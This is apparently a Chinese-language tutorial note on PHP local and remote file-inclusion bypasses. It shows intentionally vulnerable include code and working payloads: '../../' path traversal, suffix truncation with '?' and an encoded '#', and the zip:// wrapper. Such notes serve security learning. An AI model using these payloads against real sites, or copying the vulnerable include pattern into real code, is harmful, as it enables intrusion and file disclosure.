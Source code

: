 ## 前缀绕过
测试代码
```
<?php
$file = $_GET["file"];
include "D:/Less-2/test/".$file;
?>
```

### 目录遍历
使用`../../`来返回上一目录，被成为目录遍历(Path Traversal)。
例如 `?file=../../phpinfo/phpinfo.php`

## 后缀绕过
测试代码
```
<?php
$file = $_GET["file"];
include $file.".php";
?>
```

### 利用URL
完整url格式：`protocol :// hostname[:port] / path / [;parameters][?query]#fragment`

#### query(?)
```
[访问参数]   ?file=http://localhost:8088/phpinfo.php?
[拼接后]     ?file=http://localhost:8088/phpinfo.php?.php

利用url中，?后面会被作为参数去解析，文件名称就变为我们想要的
```

#### fragment(#)
```
[访问参数]   ?file=http://localhost:8088/phpinfo.php%23
[拼接后]     ?file=http://localhost:8088/phpinfo.php#.php

利用url中，#后面会被作为锚点来解析，文件名称就变为我们想要的

注意GET请求中#要经过URL编码
```

### 利用协议
利用`zip://`和`phar://`，由于整个压缩包都是我们的可控参数，那么只需要知道他们的后缀，便可以自己构建。

#### zip://
```
[访问参数]   ?file=zip://D:\zip.jpg%23phpinfo
[拼接后]     ?file=zip://D:\zip.jpg#phpinfo.php
```
